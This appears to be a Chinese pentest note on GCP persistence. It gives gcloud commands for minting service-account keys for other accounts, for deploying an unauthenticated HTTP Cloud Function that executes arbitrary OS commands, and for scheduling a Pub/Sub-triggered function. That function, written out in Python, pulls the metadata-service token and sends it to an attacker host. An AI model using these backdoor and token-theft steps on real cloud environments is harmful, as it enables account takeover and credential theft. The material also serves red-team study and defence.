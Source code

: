 #### 创建服务帐号密钥
	您可以通过多种方式向 GCP 进行身份验证，其中一种是通过服务帐户密钥。 服务帐户可以有多个与之关联的密钥，每个密钥都可以让您以该用户的身份访问 GCP
	用来自 Rhino Security Labs 的相同漏洞利用脚本来执行此操作。
	● https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py
	如果您使用 gcloud，您可以运行以下命令为其他用户创建服务帐户密钥：
	> gcloud iam service-accounts keys create OUTPUT-FILE--iam-account=IAM_ACCOUNT
	接下来将密钥导入 gcloud，您将能够以该用户身份与 GCP 交互。
	> gcloud auth activate-service-account --key-file=CREDENTIALS-FILE.JSON
	请注意，要运行此命令，您必须设置正确的权限，否则您将被拒绝。 如果您确实拥有正确的权限，您可以对项目中的每个服务帐户进行后门，从而让您轻松访问目标云环境
#### 云功能
##### 未经认证的 HTTP 云函数
	云功能是很好的后门。 您所要做的就是创建一个未经身份验证的云函数，其触发器是一个 HTTP 请求。 接下来，您将云功能设置为执行用户发送给您的任何操作系统命令
![image](/assets/Pentest_Note/master/img/911.png)

	您不想创建新功能，也可以更新另一个云功能来植入您的后门。
	要将此技术与 gcloud 一起使用，只需输入以下命令：
	● 创建一个名为 main.py 的 python 脚本
	> gcloud functions deploy NAME-OF-CLOUD-FUNCTION-HERE --entry-point ENTRY-POINT-HERE --runtime python37 --trigger-http --allow-unauthenticated
##### 定时任务
	熟悉 Linux cron ，那么 Google Cloud Scheduler 也是如此。 Linux 恶意软件通常使用 cron 进行持久性，并且可以在云中使用相同的技术
	cron 作业可以用作许多事情的触发器，使用它来发送 Pub/Sub 消息。 设置一个云函数，当它接收到 Pub/Sub 消息时将触发它。 云功能可以做任何你想做的事情，使用它来将服务帐户凭据发送到攻击者的机器。
	这种攻击只涉及三个步骤，如下所示：
	● 创建发布/订阅主题
	● 创建一个 cron 作业任务
	● 创建恶意云功能
	$ gcloud pubsub topics create test
	接下来创建一个 cron 作业，在本例中，我将创建一个每分钟执行一次的 cron 作业。
	此 cron 作业将向 Pub/Sub 主题发布消息，最终触发恶意云功能。
	$ gcloud scheduler jobs create pubsub myjob --schedule "* * * * *" --topic mytopic --message-body "Hello"
	最后创建恶意云函数。 这个函数应该用来做一些恶意行为，在这个例子中它会向攻击者发送一个身份验证令牌
	$ gcloud functions deploy <CLOUD-FUNCTION-NAME> --entry-point <PYTHON-FUNCTION-NAME> --runtime python37 --trigger-topic=<TOPIC-NAME>
	首先，我们点击元数据服务来获取附加的服务帐户身份验证令牌。
	然后我们通过 GET 请求将其发送给攻击者
```python
import requests
import json
def evil_pubsub(event, context):
    """Triggered from a message on a Cloud Pub/Sub topic.
    Args:
    event (dict): Event payload.
    context (google.cloud.functions.Context): Metadata for the event.
    """
    r = requests.get(url = "http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token",headers={"Metadata-Flavor":"Google"})
        PARAMS = {"data":r.text}
        requests.get(url="http://<ATTCKER-DOMAIN-HERE>/",params = PARAMS)
```
    
	一旦 cron 运行，它将向 Pub/Sub 发送一条消息。 本地监听此主题，可在触发时获取附加的服务帐户凭据